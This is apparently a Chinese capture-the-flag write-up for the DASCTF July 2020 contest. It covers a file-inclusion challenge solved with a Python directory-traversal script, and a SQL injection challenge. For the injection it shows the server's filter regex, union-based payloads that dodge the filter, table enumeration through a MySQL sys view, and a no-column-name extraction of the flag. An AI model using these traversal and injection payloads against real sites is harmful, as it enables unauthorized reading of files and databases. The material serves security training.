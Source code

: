 ```yaml
---
title: DASCTF2020.7月赛
date: 2020-07-25
image: 
description: 
categories: 
- ctf_writeup
tags:
- 无列名
---
```

### Ezfileinclude

考点：Unix时间戳、文件包含、目录穿越

开局一张图，发现源码 `image.php?t=1595664783&f=Z3F5LmpwZw==`

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120181135.png)

访问之，回显：`What's your time?` 仔细看t参数是一个unix时间戳，然后f是base64后的文件名；

直接写脚本，目录穿越读取/flag

```python
import time
import requests
import base64
 
t = int(time.time())
f = 'gqy.jpg?../../../../../../flag'
f = base64.b64encode(f.encode()).decode()
print(t, f)
 
host = 'http://183.129.189.60:10009/image.php?t={}&f={}'.format(t, f)
head = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0)',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8'
}
 
r = requests.get(url=host, headers=head)
print(r.text)
 
```

### SQLi

考点：无列名注入，sys.schema_tables_with_full_table_scans

访问要求传入id参数：

```
http://183.129.189.60:10004/?id=1;
```

 

返回waf：

```
return preg_match("/;|benchmark|\^|if|[\s]|in|case|when|sleep|auto|desc|stat|\||lock|or|and|&|like|-|`/i", $id); 
```

 

stat意味着过滤了sys.schema_table_statistics_with_buffer,sys.x$schema_table_statistics_with_buffer,mysql.innodb_table_stats

or意味着过滤了information_schema

由waf想到了union注入：

```
?id=0%27union/**/select/**/1,2,3%23
Array ( [0] => 1 [id] => 1 [1] => 2 [username] => 2 [2] => 3 [password] => 3 )
```

 

可以看到库名：

```
?id=0%27union/**/select/**/1,database(),3%23
sqlidb
```

 

上述bypass infomation_schema的方法都被过滤了，不过leon师傅在一次开发当中发现了另一个库：`sys.schema_tables_with_full_table_scans`

```
?id=0'/**/union/**/select/**/1,group_concat(object_name),3/**/from/**/sys.schema_tables_with_full_table_scans%23
#users,flllaaaggg,sys_config
```

接下来是无列名注入：

```
?id=0'/**/union/**/select/**/1,(select/**/a.2/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/flllaaaggg)a/**/limit/**/1,1),3%23
flag{60325f20416b40b11b6049734bad11cf}
```